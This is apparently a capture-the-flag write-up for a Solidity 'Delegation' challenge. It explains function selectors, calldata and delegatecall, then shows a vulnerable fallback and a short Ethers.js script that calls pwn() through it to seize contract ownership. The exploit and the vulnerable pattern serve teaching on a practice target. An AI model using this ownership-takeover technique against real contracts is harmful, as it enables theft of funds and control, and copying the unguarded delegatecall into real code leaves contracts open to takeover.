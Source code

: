 For a sample function:

```solidity
function transfer(address sender, uint256 amount) public {
  // Some code here
}
```

The signature is `transfer(address,uint256)`  
The function selector is the result of
`bytes4(keccak256(bytes("transfer(address,uint256))))`

**Calldata** is a type of temporary storage, containing the data specified in a
function’s arguments. The difference between it and memory, another type of
temporary storage, is that calldata’s immutability—whatever is stored inside
calldata cannot be changed.

There are two low-level calls in Solidity, both take in calldata and execute it
on the recipient:

- `call()` does it in the context of the recipient
- `delegatecall()` does it in the context of the caller (storage, msg global
  variables are retained)

### Vulnerability

```solidity
  ...
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  ...
```

### Solution

> Using Ethers.js and Hardhat Console.  
> `<address>` is the challenge instance address string.

```typescript
const signer = await ethers.getSigner();
const delegation = await hre.ethers.getContractAt("Delegation", "<address>");
const iface = new ethers.utils.Interface(["function pwn()"]);
const data = iface.encodeFunctionData("pwn");
await signer.sendTransaction({to: delegation.address, data, gasLimit: 40000});
```

Upon making these calls the challenge is solved.

```text
> signer.address === await delegation.owner();
true
```
